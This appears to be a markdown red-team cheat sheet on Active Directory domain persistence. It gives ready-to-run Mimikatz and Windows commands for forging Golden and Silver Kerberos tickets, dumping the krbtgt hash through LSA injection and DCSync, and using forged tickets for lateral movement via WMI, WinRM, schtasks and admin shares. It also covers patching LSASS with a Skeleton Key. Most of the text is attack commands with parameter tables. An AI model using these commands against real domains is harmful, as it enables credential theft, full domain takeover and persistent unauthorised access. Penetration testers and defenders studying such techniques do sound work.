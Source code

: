 # Domain Persistence

## Golden Ticket

a valid ticket forged from the Domain Controller KRBTGT hash. Allows an attacker to impersonate any user on any machine even from an host external to the domain.

```
kerberos::golden /domain:<domain> /sid:<sid> /aes256:<aes> /user:<user> /groups:<groups> /ptt
```

Create Golden Ticket as Administrator user and store it in memory

```
kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /krbtgt:<ticket> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
```

| Parameter                              | Description                                                                                   |
| -------------------------------------- | --------------------------------------------------------------------------------------------- |
| /user                                  | Username                                                                                      |
| /domain                                | FQDN                                                                                          |
| /sid                                   | Domain SID                                                                                    |
| /krbtgt OR /aes128 OR /aes256 OR /ntlm | key to use to generate the ticket                                                             |
| /id                                    | User ID, use 500 for Administrator                                                            |
| /groups                                |  Associated groups, accepts multiple separated by a comma. Default is 512,513,520             |
| /startoffset                           |  0 means available from now, positive numbers add a delay in minutes to the ticket activation |
| /endin                                 | Optional ticket lifetime in minutes. Default is 600 (10 hours)                                |
| /renewmax                              | Optional ticket lifetime in minutes. Default is 10080 (7 days)                                |
| /ptt OR /ticket                        | Load the ticket in memory or store it as a file for later use                                 |

### Mimikatz info dump

```
lsadump::lsa /inject /name:krbtgt
lsadump::lsa /patch
lsadump::trust /patch
lsadump::dcsync /user:krbtgt
```

## Silver Ticket

Create a valid TGT ticket from a known NTLM service hash. Allows to gain access to the service machine.

```
kerberos::golden /user:<user> /domain:<domain> /sid:<SID> /rc4:<hash> /id:<id> /groups:<groups> /service:<srv> /target:<host>
```

| Parameter       | Description                                                                                   |
| --------------- | --------------------------------------------------------------------------------------------- |
| /user           | Username                                                                                      |
| /domain         | FQDN                                                                                          |
| /sid            | Domain SID                                                                                    |
| /rc4            | NTLM key                                                                                      |
| /id             | User ID, use 500 for Administrator                                                            |
| /groups         |  Associated groups, accepts multiple separated by a comma. Default is 512,513,520             |
| /startoffset    |  0 means available from now, positive numbers add a delay in minutes to the ticket activation |
| /endin          | Optional ticket lifetime in minutes. Default is 600 (10 hours)                                |
| /renewmax       | Optional ticket lifetime in minutes. Default is 10080 (7 days)                                |
| /service        | Type of service to attack. See table below for reference.                                     |
| /target         | The target host                                                                               |
| /ptt OR /ticket | Load the ticket in memory or store it as a file for later use                                 |

### List of service attacks

In case of multiple tickets, the attacker has to create a new silver ticket for the same target host for each specified service type. The following attacks are run from the Windows machine where oyu have created the ticket

| Service                             | Silver Tickets service types required          |
| ----------------------------------- | ---------------------------------------------- |
| WMI                                 | HOST, RPCSS                                    |
| PowerShell Remoting                 | HOST, HTTP, WSMAN or RPCSS depending on the OS |
| WinRM                               | HOST, HTTP                                     |
| Task Scheduler                      | HOST                                           |
| LDAP                                | LDAP                                           |
| Windows File Share                  | CIFS                                           |
| Windows Remote Administration Tools | RPCSS, LDAP, CIFS                              |

#### WMI

```
wmic.exe /authority:"kerberos:DOMAIN\<DC>" /node:"<target>" process call create "<payload>"
```

#### PowerShell remoting / WinRM

```
New-PSSESSION -NAME PSC -ComputerName <target>; Enter-PSSession -Name PSC
```

#### Task Scheduler

```
schtasks /create /s <target> /SC <time> <amount> /RU "NT Authority\System" /IR "<payload>"

schtasks /create /s <target> /SC <time> <amount> /RU "<group>/<user>" /IR "<payload>"
```

The available times are MINUTE, HOURLY, DAILY, WEEKLY, MONTHLY, ONCE, ONSTART, ONLOGON, ONIDLE. For the first 5 ones you also have to specify an amount of time, for instance HOURLY 3 means start every 3 hours.

#### Windows File Share

```
dir \\<target>\c$
```

#### LDAP Desync attack

```
lsadump::dcsync /dc:<DC> /domain:<domain> /user:krbtgt
```

## Skeleton Key

Patches the LSASS Domain Controller process to allow access for a determined user with an arbitrary password specified by the attacker. After the attack both the new password and the original one are considered valid. The default injected password is mimikatz.

```
misc::skeleton
```

###
